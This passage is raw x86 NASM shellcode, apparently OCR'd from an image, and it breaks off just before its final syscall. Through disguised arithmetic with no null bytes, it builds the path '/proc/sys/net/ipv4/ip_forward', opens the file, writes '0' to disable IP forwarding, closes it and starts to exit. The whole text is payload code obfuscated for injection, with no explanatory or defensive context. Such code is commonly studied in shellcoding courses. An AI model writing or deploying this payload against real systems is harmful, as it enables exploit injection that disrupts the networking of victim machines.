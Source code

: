 ```nasm
  	;push dword 0x70692f34
	sub ebx, 0x206372b		; 0x70692f34 = 0x726f665f - 0x206372b
	push ebx	

  	;push dword 0x7670692f
	add ebx, 0x60739fb		; 0x7670692f = 0x70692f34 + 0x60739fb
	push ebx

  	;push dword 0x74656e2f
	sub ebx, 0x20afb01		; 0x74656e2f = 0x7670692f - 0x20afb01 + 1
	inc ebx					; +1 to avoid null byte [0x7670692f - 0x74656e2f] = [0x20afb00]
	push ebx

  	;push dword 0x2f737973
	sub ebx, 0x44f1f4bc		; 0x2f737973 = 0x74656e2f - 0x44f1f4bc
	push ebx

  	;push dword 0x2f636f72
	sub ebx, 0x11223344		; 0x2f737973 - 0x11223344 + 0x11122943 = 0x2f636f72
	add ebx, 0x11122943
	push ebx

  	push word 0x702f

 	 mov ebx,esp

	;xor ecx,ecx
  	;mov cl,0x1
	push 0x1
	pop ecx
	
  	mov al,0x5
  	int 0x80

	;mov ebx,eax
	push eax
	pop ebx

	xor ecx,ecx
    	push ecx
    	push byte +0x30
    	mov ecx,esp
        
	;xor edx,edx
    	;mov dl,0x1
	push 0x1
	pop edx
	
    	mov al,0x4
    	int 0x80

   	;xor eax,eax
    	;add eax,byte +0x6
	push 0x6
	pop eax

    	int 0x80

    	;xor eax,eax
   	;inc eax
	push 0x1
	pop eax

```
